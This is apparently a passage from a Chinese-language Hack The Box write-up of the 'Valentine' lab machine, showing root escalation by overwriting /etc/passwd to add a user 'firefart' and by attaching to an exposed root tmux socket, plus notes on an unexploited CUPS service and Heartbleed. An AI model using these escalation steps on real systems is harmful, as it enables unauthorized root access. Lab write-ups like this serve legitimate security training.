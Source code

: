 
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '123456'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
hype@Valentine:/tmp$ su firefart
Password: 
firefart@Valentine:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)

```

拿到root权限。




## 提权方法二
传linpea，发现下面命令可以直接提权：

```/usr/bin/tmux -S /.devs/dev_sess```

```
root@Valentine:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/tmp# whoami
root

```

## other
提权的时候我还看见靶机开启了一个内部的631的端口服务
```
hype@Valentine:/tmp$ netstat -ano|grep LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 ::1:631                 :::*                    LISTEN      off (0.00/0/0)
unix  2      [ ACC ]     STREAM     LISTENING     9269     /var/run/acpid.socket
unix  2      [ ACC ]     STREAM     LISTENING     7446     @/com/ubuntu/upstart
unix  2      [ ACC ]     STREAM     LISTENING     8182     @/org/bluez/audio
unix  2      [ ACC ]     STREAM     LISTENING     67768    /tmp//tmux-1000/default
unix  2      [ ACC ]     STREAM     LISTENING     9161     /.devs/dev_sess
unix  2      [ ACC ]     STREAM     LISTENING     10180    /var/run/vmware/guestServicePipe
unix  2      [ ACC ]     SEQPACKET  LISTENING     7624     /run/udev/control
unix  2      [ ACC ]     STREAM     LISTENING     8144     /var/run/avahi-daemon/socket
unix  2      [ ACC ]     STREAM     LISTENING     8152     /var/run/sdp
unix  2      [ ACC ]     STREAM     LISTENING     8432     /var/run/cups/cups.sock
unix  2      [ ACC ]     STREAM     LISTENING     7933     /var/run/dbus/system_bus_socket

```

用隧道连接到kali的时候发现是一个cups的服务，版本号是1.5.2
找到了相应的攻击脚本，但是我没有办法提权。不知道这个是兔子洞还是我攻击方法有问题。。

# 总结
这台靶机的名字叫Valentine，但是关键步骤却是心脏滴血漏洞，就还挺黑色幽默的。。
HTB的这些靶机的名字有时候会跟初始shell或者提权有关，有时候要好好琢磨一下。像buff那台用缓冲区溢出提权，shcker那台用的是shellshock拿到初始shell
我花了很多时间在那个ssh私钥的加解密和base64页面拿webshell上，这个过程真的很折磨人，什么时候该放弃，也是个经验问题，小本本记起来。。

